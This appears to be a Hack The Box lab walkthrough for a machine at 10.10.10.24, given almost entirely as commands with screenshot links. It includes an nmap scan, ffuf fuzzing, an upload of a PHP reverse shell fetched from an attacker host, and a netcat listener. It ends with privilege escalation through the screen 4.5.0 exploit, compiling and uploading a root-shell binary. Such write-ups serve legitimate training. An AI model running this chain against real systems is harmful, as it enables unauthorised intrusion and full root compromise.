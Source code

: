 ```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.24/FUZZ -e .aspx,.php,.txt,.html,.sh
http://10.10.10.24/exposed.php
https://github.com/pentestmonkey/php-reverse-shell.git
http://10.10.14.3/php-reverse-shell.php -o uploads/php-reverse-shell.php
nc -nlvp 1234
http://10.10.10.24/uploads/php-reverse-shell.php
python3 -c "import pty;pty.spawn('/bin/bash’)
find / -perm -4000 2>/dev/null
LinEnum.sh
screen 4.5.0 privesc
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.24
```
![image](https://github.com/regarmulia/HTB/assets/33616880/46735d62-2827-4576-966f-4259541ac585)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.24/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f6e89b74-85df-466e-bd99-5779c782bc3e)


```
http://10.10.10.24/exposed.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/835a805c-0ea0-46dd-a17b-da4fad050cd3)


```
http://10.10.14.3/lala.txt -o uploads/lala.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fad0f92d-e6ca-4f6d-8abb-e4c2355198e6)


```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
diff -u php-reverse-shell.php shell.php
```
![image](https://user-images.githubusercontent.com/33616880/232672632-55eefa42-eeca-4a5d-8c7c-78a35e18a674.png)


```
http://10.10.14.3/php-reverse-shell.php -o uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6f90ae46-7da7-4b79-a535-23ff44c610eb)


```
nc -nlvp 1234
http://10.10.10.24/uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/edb8a437-2dc8-44b4-b5b6-6b05fbc7fefe)


```
python3 -c "import pty;pty.spawn('/bin/bash’)
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/14ee2274-fa4e-4a6d-a371-56f5584faf65)


```
OR
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/232672837-a43f9b03-ecb6-4c16-8966-9c8493c37512.png)
![image](https://user-images.githubusercontent.com/33616880/232672832-8c3e1108-d6fe-40e7-b4f0-84dce04e3aea.png)


```
screen 4.5.0
```
![image](https://user-images.githubusercontent.com/33616880/232672860-72151f75-c0e3-46f7-ba0c-22f08b39ec86.png)


```
https://www.exploit-db.com/exploits/41154
```
![image](https://github.com/regarmulia/HTB/assets/33616880/622a5695-9706-4cf5-9509-48a4bc1d4852)


```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c
http://10.10.14.3/rootshell -o uploads/rootshell
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9314f3d0-e1ea-4206-abaa-47e6ea18b02e)
![image](https://github.com/regarmulia/HTB/assets/33616880/2688ef7f-8a3c-4e36-bcb7-9da3478eb431)


```
execute
```
![image](https://github.com/regarmulia/HTB/assets/33616880/59bac660-ba8f-40ec-9db4-a25af662806a)
